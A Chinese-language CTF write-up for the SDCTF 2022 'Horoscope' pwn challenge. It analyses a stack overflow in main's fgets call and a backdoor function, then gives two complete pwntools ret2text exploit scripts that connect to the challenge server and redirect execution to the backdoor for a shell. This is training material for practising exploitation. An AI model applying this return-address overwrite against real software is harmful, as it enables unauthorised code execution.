





## 基本信息

- 题目名称：[SDCTF 2022]Horoscope
- 题目链接：https://www.nssctf.cn/problem/2381
- 考点清单：ret2text，REVERSE
- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

- 反汇编发现4个自定义函数



- 发现test函数是后门，需求temp==1，同时debug函数可以设置temp=1



- main函数fgets传参0x140大于为字符串预留的存储栈空间0x30，存在栈溢出



- 最后看最复杂的processInput，一个switch-case



- 注意到非1到12的前序输入会导致程序提前exit，因此需要特殊处理前序字节



## 二、想到什么解题思路

### 第一轮

-   栈溢出+前序字节特殊处理，跳转至debug，为test赋值为1
-   跳转至backdoor（test）

### 第二轮

- 可以直接跳过test的校验，直接跳转至系统调用

## 三、尝试过程和结果记录

### 第一轮

-   payload=b‘1’+b’a‘ *(30 + 7)+p64(debug_addr)+p64(test_addr)
-   debug_addr = 0x40096e
-   test_addr = 0x400950

### 第二轮

- payload=b‘1’+b’a‘ *(30 + 7)+p64(backdoor)

- backdoor = 0x40095f

## 四、Payload

- payload1：

```python
from pwn import *

lc = "./horoscope"

rm = "node4.anna.nssctf.cn"
prt = 28991

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

test_addr = p64(0x400950)
debug_addr = p64(0x40096e)
padding = b'1'+0x37*b'a'
payload = padding + debug_addr + test_addr 

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()

p.sendline(payload)

p.interactive()
```

- payload2：

```python
from pwn import *

lc = "./horoscope"

rm = "node4.anna.nssctf.cn"
prt = 28991

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

backdoor = p64(0x40095f)
padding = b'1'+0x37*b'a'
payload = padding + backdoor

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()

p.sendline(payload)

p.interactive()
```

